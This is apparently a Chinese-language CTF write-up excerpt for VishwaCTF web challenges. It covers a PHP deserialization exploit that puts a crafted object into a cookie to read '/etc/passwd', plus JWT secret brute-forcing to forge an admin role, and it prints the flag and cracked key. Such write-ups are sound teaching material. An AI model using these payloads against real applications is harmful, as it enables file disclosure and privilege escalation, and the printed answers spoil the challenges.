 ```php


<?php foreach($todos as $todo):?>
      <label class="todo">
      <input class="todo__state" type="checkbox" />
      <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 200 25" class="todo__icon">
        <use xlink:href="#todo__line" class="todo__line"></use>
        <use xlink:href="#todo__box" class="todo__box"></use>
        <use xlink:href="#todo__check" class="todo__check"></use>
        <use xlink:href="#todo__circle" class="todo__circle"></use>
      </svg>
      <div class="todo__text"><?=$todo?></div>
      </label>
    <?php endforeach;?>
```

反序列化即可，echo触发 __toString

exp

```php
<?php

Class ShowSource{
    public function __construct()
    {
        $this->source = '/etc/passwd'; //flag.php
    }
}
$todos[]=new ShowSource();
echo sha1(serialize($todos));
echo urlencode(serialize($todos));
?>
```

替换cookie中的todo

![image-20220321161245216](https://img-blog.csdnimg.cn/img_convert/ca4f1b89b041c4c0f6c8fa7034cb9d59.png)

FLAG：VishwaCTF{t7e_f1a6_1s_1is73d}

# Keep Your Secrets

访问路由得到 jwt

![image-20220321184157906](https://img-blog.csdnimg.cn/img_convert/71cfb4d05e5222af21c245c8a615ee4a.png)

使用c-jwt-cracker进行 jwt 爆破，密钥为 `owasp` 

![image-20220321184257792](https://img-blog.csdnimg.cn/img_convert/fdfd83d05ce4bdf2de167abd1e49f58d.png)

修改权限为admin
